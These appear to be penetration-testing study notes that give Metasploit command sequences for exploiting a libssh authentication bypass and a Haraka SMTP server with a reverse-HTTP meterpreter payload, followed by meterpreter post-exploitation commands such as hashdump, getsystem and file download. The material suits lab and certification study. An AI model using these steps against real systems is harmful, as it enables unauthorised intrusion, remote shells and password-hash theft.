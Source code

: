 #### SSH Exploitation:

```msfconsole
search libssh_auth_bypass
use 1
show options
set RHOST <ip-address>
set SPAWN_PTY true
run
```

> This can be used to tell weather it is vulnerable and can be used to gain a sell session.

```msfconsole
CTRIL + Z
y
use post/multi/manage/shell_to_meterpreter
show options 
set LHOST eth1
set SESSION <session-id>
run
```

> It can be used to convert the shell session to a meterpreter session. If it gives an error don't worry you can access the session from the `sessions` command. Other than this you can also use the `sessions -u 1` command to upgrade a shell session into a meterpreter session.

#### SMTP Server Exploitation

```msfconsole
search type:exploit name:haraka
use 1
set rhost <ip-address>
set SEVPORT 9898
set email_to <email-address>
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
run
```

> This module after running will give us a meterpreter session. In the module `email_to` should be an email that the server should accept.

#### Meterpreter Commands:

- `sysinfo`: This gives us basic system info like the OS, PC Name and all
- `get uid`: This command tells us about our permissions.
- `help`: This gives all the commands and their details.
- `backgroud`: This is used to put the session in background.
- `kill`: This will kill the current session.
- `search -d /dir/path -f "<file-name>"`: This command can be used to find a particular file in a directory.
- `search -f *.exe`: This can be used to find all the `exe` file or any extension that you'll enter.
- `download <file-name>`: This can be used to download a file.
- `shell`: This can be used to pop the native shell of the machine.
- `ps`: This can be used to list down all the processes.
- `getsystem:` This command can be used to automatically elevate the privileges of the current exploited user on **windows**.
- `screenshot:` This command can be used to click a screenshot of the **windows screen**.
- `hashdump`: This command can be used to dump all the hashes of passwords with in the SAM DB.
- `show_mount`: This will tell all the disks mounted with the windows user.
- `migrate <pid>`: This can be used to migrate to any current running processes.
- `loot`: After that you have ran some enumeration modules you can find the data saved in texts using this command 
